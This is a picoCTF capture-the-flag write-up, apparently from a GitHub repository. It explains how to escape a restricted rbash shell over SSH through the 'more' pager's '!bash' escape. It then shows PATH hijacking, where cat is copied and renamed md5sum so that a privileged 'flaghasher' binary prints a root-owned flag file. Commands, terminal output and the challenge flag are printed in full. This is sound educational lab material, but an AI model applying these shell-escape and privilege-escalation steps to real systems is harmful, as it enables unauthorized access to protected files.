 The SSH buts us into `rbash`, which is a restricted version of bash that doesn't allow for certain commands (including `export` and setting environment variables, which is what my solution depends on).

The simplest solution is to specify a terminal when trying to log into the ssh, which can be done using `ssh ctf-player@rescued-float.picoctf.net -p 57141 -t "bash"`.

I'll still explan my solution because it was interesting and might come in useful for other situations. I found [this fantastic resource](https://gtfobins.github.io/gtfobins/more/) online, which gave ways of escaping rbash and using other shells. I used the `more` command
```
echo -e "\n\n\n\n\n\n" | more
!bash
```
Which got me into bash!

I ran mktemp -d to create a temporary directory where I'll be storing my modified binaries. I copied the cat binary with `cp` and renamed it with `mv` to `md5sum`. I then ran export PATH=/tmp/directory:$PATH to add my md5sum binary to the start of PATH variable. By default, it will go down the list of PATH and use my modified binary instead of the real md5sum binary. Running flaghasher now prints out the flag.

```
!bash
ctf-player@challenge:~$ mktemp -d
/tmp/tmp.FV67YOrbdY
ctf-player@challenge:~$ cd /tmp/tmp.FV67YOrbdY
ctf-player@challenge:/tmp/tmp.FV67YOrbdY$ cp /usr/bin/cat .
ctf-player@challenge:/tmp/tmp.FV67YOrbdY$ mv cat md5sum
ctf-player@challenge:/tmp/tmp.FV67YOrbdY$ export PATH=/tmp/tmp.FV67YOrbdY:$PATH
ctf-player@challenge:/tmp/tmp.FV67YOrbdY$ flaghasher
Computing the MD5 hash of /root/flag.txt.... 

picoCTF{Co-@utH0r_Of_Sy5tem_b!n@riEs}
```